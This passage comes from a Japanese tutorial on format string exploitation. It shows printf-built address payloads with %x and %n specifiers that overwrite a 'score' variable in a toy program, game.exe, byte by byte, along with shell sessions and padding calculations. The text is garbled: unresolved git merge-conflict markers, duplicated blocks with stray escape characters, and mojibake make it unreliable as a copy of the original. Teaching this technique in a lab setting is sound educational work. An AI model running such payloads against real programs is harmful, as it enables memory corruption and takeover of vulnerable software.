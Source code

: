 　このように4つのアドレスをそれぞれの桁として扱い、任意の数値を書き込むこ
とができます。具体的には「`printf "\x8c\xf9\xff\xbf\x8d\xf9\xff\xbf\x8e\x
f9\xff\xbf\x8f\xf9\xff\xbf"`%x.%x.%x.%x.%x.%x.%x.%n」のように、フォーマッ
=======
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-bffff98c
aa 00 00 00
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-bffff98d
   bb 00 00 00
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-bffff98e
      cc 00 00 00
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-bffff98f
         dd 00 00 00
\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=\=
aa bb cc dd

　このように4つのアドレスをそれぞれの桁として扱い、任意の数値を書き込むこ
とができます。具体的には「\`printf "\x8c\xf9\xff\xbf\x8d\xf9\xff\xbf\x8e\x
f9\xff\xbf\x8f\xf9\xff\xbf"\`%x.%x.%x.%x.%x.%x.%x.%n」のように、フォーマッ
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
トストリングに4つのアドレスを立て続けに書きます。初めの%nはフォーマットス
トリングの初めの4バイトを参照し、次の%nはフォーマットストリングの4バイト目
から7バイト目までの4バイトを参照します。

　例として0xddccbbaaという値をscoreに書き込んでみましょう。リトルエンディ
アンですので、はじめにbffff98c番地に0x000000aaを書き込みます。

<<<<<<< HEAD
-----
newbie@Glazheim:knoppix$ game.exe `printf "\x8c\xf9\xff\xbf\x8d\xf9\xff\xbf\x8e\xf9\xff\xbf\x8f\xf9\xff\xbf"`%x.%x.%x.%x.%x.%x.%x.%n
[debug]addr of score = bffff98c
[debug]addr of payload = bffff950
Score of 鐃緒申鐃緒申鐃緒申鐃緒申鐃?fffb65.1.bffff8c4.4d532038.532050.b7eb116c.1. is 63(3f)!! 
-----

　フィールド幅オプションなしの状態では63という値が書き込まれます。これを
0xaaにするには、あとどれだけの出力を余分に行えばよいでしょうか。0xaaは10
進数で170ですので、170-63=107。つまり、108文字を余分に出力すれば0xaaを書
き込めます。

-----
newbie@Glazheim:knoppix$ game.exe `printf "\x8c\xf9\xff\xbf\x8d\xf9\xff\xbf\x8e\xf9\xff\xbf\x8f\xf9\xff\xbf"`%x.%x.%x.%x.%x.%x.%108x.%n
[debug]addr of score = bffff98c
[debug]addr of payload = bffff950
Score of 鐃緒申鐃緒申鐃緒申鐃緒申鐃?fffb62.1.bffff8c4.4d532038.532050.b7eb116c. 1. is 170(aa)!! 
-----
=======
\-\-\-\-\-
newbie@Glazheim:knoppix$ game.exe \`printf "\x8c\xf9\xff\xbf\x8d\xf9\xff\xbf\x8e\xf9\xff\xbf\x8f\xf9\xff\xbf"\`%x.%x.%x.%x.%x.%x.%x.%n
[debug]addr of score \= bffff98c
[debug]addr of payload \= bffff950
Score of 鐃緒申鐃緒申鐃緒申鐃緒申鐃?fffb65.1.bffff8c4.4d532038.532050.b7eb116c.1. is 63(3f)!! 
\-\-\-\-\-
